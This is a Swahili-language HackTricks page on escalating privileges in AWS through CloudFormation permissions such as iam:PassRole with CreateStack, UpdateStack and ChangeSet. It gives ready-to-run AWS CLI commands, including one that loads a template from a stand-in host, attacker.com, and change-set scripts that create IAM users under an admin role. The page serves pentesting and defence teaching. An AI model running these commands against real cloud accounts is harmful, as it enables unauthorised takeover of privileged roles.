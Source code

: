 # AWS - Ukarabati wa Mamlaka ya Cloudformation

{% hint style="success" %}
Jifunze na zoezi la Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoezi la Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>unga mkono HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

Kwa habari zaidi kuhusu cloudformation angalia:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Mshambuliaji mwenye ruhusa hizi **anaweza kukuza mamlaka** kwa kutengeneza **stakabadhi ya CloudFormation** na templeti ya desturi, iliyohifadhiwa kwenye seva yao, kutekeleza hatua chini ya ruhusa ya jukumu lililoteuliwa:
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Katika ukurasa ufuatao una **mfano wa kutumia** na idhini ya ziada **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Matokeo Yanayowezekana:** Privesc kwa jukumu la huduma ya cloudformation iliyotajwa.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Katika kesi hii unaweza **kutumia vibaya stakabadhi ya cloudformation iliyopo** kuibadilisha na kuinua mamlaka kama ilivyokuwa kwenye kisa kilichopita:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
**Matokeo Yanayowezekana:** Privesc kwa jukumu la huduma ya cloudformation lililoelezwa.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Ikiwa una idhini hii lakini **huna `iam:PassRole`** bado unaweza **kusasisha mizunguko** iliyotumiwa na kutumia **Vivutio vya IAM ambavyo tayari vimeambatanishwa**. Angalia sehemu iliyopita kwa mfano wa shambulio (tu usitaje jukumu lolote katika sasisho).

Idhini ya `cloudformation:SetStackPolicy` inaweza kutumika kwa **kujipa mwenyewe idhini ya `UpdateStack`** juu ya mizunguko na kufanya shambulio.

**Matokeo Yanayowezekana:** Privesc kwa jukumu la huduma ya cloudformation tayari limeambatanishwa.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Mshambuliaji mwenye idhini ya **kupitisha jukumu na kuunda & kutekeleza ChangeSet** anaweza **kuunda/kusasisha mizunguko mpya ya cloudformation kutumia vibali vya huduma za cloudformation** kama ilivyo kwa CreateStack au UpdateStack.

Shambulio lifuatalo ni **tofauti ya** [**moja ya KuundaStack**](./#iam-passrole-cloudformation-createstack) kutumia **idhini za ChangeSet** kuunda mizunguko.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` ruhusa inaweza kutumika **kujipa ruhusa za `ChangeSet`** juu ya stack na kufanya shambulio.

**Matokeo Yanayowezekana:** Privesc kwa majukumu ya huduma ya cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Hii ni kama njia iliyopita bila kupitisha **majukumu ya IAM**, hivyo unaweza tu **kutumia yale yaliyowekwa tayari**, badilisha tu parameter:
```
--change-set-type UPDATE
```
**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya cloudformation tayari limeunganishwa.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Mshambuliaji anaweza kutumia vibali hivi kuunda/kusasisha StackSets kutumia majukumu ya cloudformation kwa njia isiyo halali.

**Athari Inayowezekana:** Privesc kwa majukumu ya huduma ya cloudformation.

### `cloudformation:UpdateStackSet`

Mshambuliaji anaweza kutumia kibali hiki bila kibali cha passRole kusasisha StackSets kutumia majukumu ya cloudformation yaliyounganishwa.

**Athari Inayowezekana:** Privesc kwa majukumu ya huduma ya cloudformation yaliyounganishwa.

## Marejeo

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Jifunze & zoezi la Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & zoezi la Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
